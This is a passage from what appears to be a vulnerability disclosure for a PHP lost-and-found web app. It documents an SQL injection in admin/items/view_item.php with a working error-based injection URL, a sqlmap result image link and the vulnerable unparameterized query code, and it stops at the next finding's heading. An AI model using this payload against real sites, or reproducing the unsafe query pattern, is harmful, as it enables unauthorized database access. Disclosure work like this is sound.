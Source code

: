 # **6.SQL injection vulnerability in admin\items\view_item.php**
---
## Sample request POC #6

```
http://php-lfis.com/?page=admin/items/view_item&id=1%27%20OR%20(SELECT%204881%20FROM(SELECT%20COUNT(*),CONCAT(0x7171707871,(SELECT%20(ELT(4881=4881,1))),0x7171626271,FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)%20AND%20%27voJR%27=%27voJR
```
## Sqlmap running results #6

![blockchain](https://github.com/AnotherN/cvv/blob/main/imgs/6.admin-items-view_item.php.jpg "Lost and Found Information System")

## Related Codes admin\items\view_item.php

```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT *, COALESCE((SELECT `name` FROM `category_list` where `category_list`.`id` = `item_list`. `category_id` ) ,'N/A') as `category` from `item_list` where id = '{$_GET['id']}' ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
    }else{
		echo '<script>alert("item ID is not valid."); location.replace("./?page=items")</script>';
	}
}else{
	echo '<script>alert("item ID is Required."); location.replace("./?page=items")</script>';
}
?>
```

# **7.SQL injection vulnerability in admin\user\manage_user.php**
---
## Sample request POC #7

